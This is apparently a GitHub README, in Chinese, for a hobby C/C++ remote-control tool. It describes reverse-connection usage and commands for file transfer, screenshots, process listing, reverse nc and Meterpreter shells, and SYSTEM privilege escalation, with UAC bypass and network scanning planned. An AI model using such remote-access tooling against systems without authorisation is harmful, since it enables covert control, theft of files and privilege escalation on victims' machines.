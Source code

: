 ### Simple Remote
一个用c/c++写的基于tcp通信的简单远控，写此项目主要是将自己所学的知识融会贯通，仅此而已。

代码健壮性不是非常的高，在输入一些非法的命令格式的时候，有可能会引起崩溃，我也懒得处理了。毕竟这不是我写这个项目的重点。

视频演示: <a href="https://www.bilibili.com/video/BV1aq4y1e7nU">BV1aq4y1e7nU</a>

### 建立连接

本项目分为客户端（Client.exe） 和服务器端（Server.exe）。因为使用的是反向连接方式，所以必须先启动Server.exe

启动Server.exe，格式 `Server.exe port`。示例`Server.exe 3333`，将会监听`3333`端口

启动Client.exe，格式  `Client.exe ip port`。示例`Client.exe 192.168.0.1 3333`。将会连接192.168.0.1的3333端口

 <img src="image\3.jpg">


### 支持功能
#### help
查看支持命令, 格式 `help`

 <img src="image\11.jpg">

#### upload
上传本地文件到对方机器。格式  `upload filepath`。
<img src="image\1.jpg">

#### download

下载对方机器文件到本地。格式  `download filepath`。
<img src="image\2.jpg">

#### ps
列出正在运行的进程，格式 `ps`
<img src="image\4.jpg">

#### getpid
获取当前进程pid，格式 `getpid`

 <img src="image\5.jpg">

#### drive
列出盘符，格式 `drive`

 <img src="image\6.jpg">

#### screen
屏幕截图，格式 `screen`
<img src="image\7.jpg">

#### nc
反弹nc，格式 `nc ip port`

 <img src="image\8.jpg">

#### msf
反弹msf，仅支持`windows/meterpreter/reverse_tcp`，格式 `msf ip port`

 <img src="image\9.jpg">

#### getsystem
从管理员提权到system，格式 `getsystem`，如果提权成功会打开一个新窗口

 <img src="image\10.jpg">

### 待完善
1.反弹msf功能，因为在client.exe启动了一个msf的子线程，所以msf退出或者client.exe退出。都会导致对方程序崩溃，后续会考虑使用傀儡进程

2.流量层进行加密

3.添加bypassuac功能

4.添加端口转发功能

5.添加内网存活主机扫描功能

6.先阶段只能连接一个客户端，后续考虑支持多个客户端 （最后考虑）

7.支持交互式shell （最后考虑）

